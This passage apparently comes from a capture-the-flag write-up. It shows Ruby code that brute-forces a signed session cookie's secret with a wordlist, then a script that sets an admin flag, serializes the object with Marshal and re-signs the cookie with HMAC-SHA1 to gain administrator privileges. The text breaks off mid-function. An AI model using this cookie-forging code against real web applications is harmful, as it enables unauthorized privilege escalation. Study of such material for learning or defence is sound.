 ```ruby

    for cookie in cookies
        secret = find_secret(cookie, words)
        if secret.nil?
            puts('find-secret: Brute force failed. Try a different dictionary or check your cookie')
        else
            puts('Secret found: ' + secret)
        end
    end
    return 0
end

main
```

Running this with our wordlist and cookie from the server we get:

![find-secret](/assets/images/posts/rcci/find-secret.png)

Now that we have the secret, we can go ahead and sign our modified cookie and try to 
get administrator privileges.

Modified `tamper-cookie.rb` program

```ruby
require 'pp'
require 'uri'
require 'base64'
require 'openssl'
require 'data_mapper'

DataMapper.setup(:default, 'sqlite3::memory')

class User
    attr_accessor :admin
end

def encode_object(obj, secret)

    obj["user"].admin = true

    data = Base64.encode64(Marshal.dump(obj))

    signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)

    # URI encode doesn't encode '=' character
    return URI.encode(data).gsub("=", "%3D")+"--"+signature
end

def decode_cookie(c)
    cookie = c.split("--")

    # Undo URL encode then base64 decode
    decoded = Base64.decode64(URI.decode(cookie[0]))

    begin
        obj = Marshal.load(decoded)
        puts("Decoded Cookie:\n")
        return obj
    rescue ArgumentError => err
```